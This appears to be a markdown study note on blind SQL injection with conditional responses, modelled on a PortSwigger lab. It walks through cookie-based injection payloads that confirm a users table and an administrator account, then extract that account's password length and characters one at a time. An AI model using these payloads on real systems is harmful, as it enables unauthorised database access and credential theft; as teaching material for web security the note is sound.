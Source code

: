 Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Which the application process and uses a SQL query to determine whether this is a known user:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
While this query is vulnerable to SQL Injection, the results are not returned to the user. However, the application does behave differently depending on whether the query returns any data. For example, submitting a recognized `TrackingId` will return a "Welcome back" message in the response.

This type of behavior is enough to be able to exploit blind SQL injection. You can retrieve information by triggering different responses depending on an injected condition.

Using the example above, suppose that the two following requests are sent in turn:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='1
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='2
```
- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
## Example Exploit
Another example, suppose you want to find out if the `users` table does exists and if there is a user account called `Administrator`.
1. You can do this by sending the following input:
```txt
...xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
Verify that the condition is true, confirming that there is a table called `users`.

2. Now we can change the payload to:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
Verify that the condition is true, confirming that there is a user called `administrator`.
## Example Exploit Continuation
You can also use this technique to find out the password of the user called `administrator` by sending a series of inputs to test the password length:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```
When the condition stops being true (i.e when the "Welcome back" message disappears), we have determined the length of the password.

1. We can now then do use the same technique to find out the password one character at a time:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
Verify that the condition is true, confirming that the first password character is greater than `m`.

2. Next send the following input:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
Verify that the condition is not true, confirming that the first password character is not greater than `s`.

3. Eventually, the following input returns a "Welcome back" message, thereby confirming that the first character is `s`:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
## Example from PortSwigger Web Academy
The video below uses the Cluster Bomb attack type
[![SQL Injection - Lab #11 Blind SQL injection with conditional responses](https://img.youtube.com/vi/LBG_n9fr8sM/0.jpg)](https://www.youtube.com/watch?v=LBG_n9fr8sM)
The video below uses the Sniper attack type and manual brute forcing
[![Blind SQL injection with conditional responses (Video solution, Audio)](https://img.youtube.com/vi/M5Ko7F1_co4/0.jpg)](https://www.youtube.com/watch?v=M5Ko7F1_co4)